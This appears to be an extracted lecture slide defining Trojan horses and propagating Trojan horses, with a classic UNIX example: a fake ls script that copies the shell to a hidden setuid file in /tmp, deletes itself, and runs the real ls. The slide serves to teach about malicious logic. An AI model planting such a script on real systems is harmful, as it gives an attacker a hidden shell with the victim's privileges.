

# Trojan Horses
Trojan horse is a program with an overt (documented or known) effect and a covert (undocumented or unexpected) effect.

A propagating Trojan horse (also called a replicating Trojan horse) is a Trojan horse that creates a copy of itself.

EXAMPLE: The following UNIX script is named ls and is placed in a directory.
cp /bin/sh /tmp/.xxsh
chmod u+s,o+x /tmp/.xxsh
rm ./ls
ls $*
It creates a copy of the UNIX shell that is setuid to the user executing this program This program is deleted, and then the correct ls command is executed. On most systems, it is against policy to trick someone into creating a shell that is setuid to themselves. If someone is tricked into executing this script, a violation of the (implicit) security policy occurs. This script is an example of malicious logic.